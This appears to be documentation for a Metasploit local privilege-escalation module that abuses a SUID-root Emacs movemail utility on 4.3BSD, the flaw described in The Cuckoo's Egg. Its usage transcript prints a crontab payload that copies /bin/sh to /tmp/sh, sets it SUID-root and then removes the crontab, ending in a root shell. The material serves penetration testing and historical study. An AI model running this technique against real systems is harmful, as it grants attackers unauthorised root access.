 ## Introduction

This module exploits a SUID installation of the Emacs `movemail` utility
to run a command as root by writing to 4.3BSD's `/usr/lib/crontab.local`.
The vulnerability is documented in Cliff Stoll's book *The Cuckoo's Egg*.

## Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Targets

```
Id  Name
--  ----
0   /usr/lib/crontab.local
```

## Options

**MOVEMAIL**

Set this to the absolute path to the SUID-root `movemail` executable.

**CMD**

If your payload is `cmd/unix/generic` (suggested default), set this to
the command you want to run as root. The provided default will create a
SUID-root shell at `/tmp/sh`.

## Usage

```
msf5 exploit(unix/local/emacs_movemail) > run

[*] Setting a sane $PATH: /bin:/usr/bin:/usr/ucb:/etc
[*] Current shell is /bin/sh
[*] $PATH is /bin:/usr/bin:/usr/ucb:/etc
[+] SUID-root [redacted] found
[*] Preparing crontab with payload
* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh
* * * * * root rm -f /usr/lib/crontab.local
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/emacs_movemail) > sessions -1
[*] Starting interaction with 1...

ls -l /usr/lib/crontab.local /tmp/sh
/usr/lib/crontab.local not found
-rwsr-xr-x  1 root        23552 Nov 22 15:17 /tmp/sh
/tmp/sh -c whoami
root
```
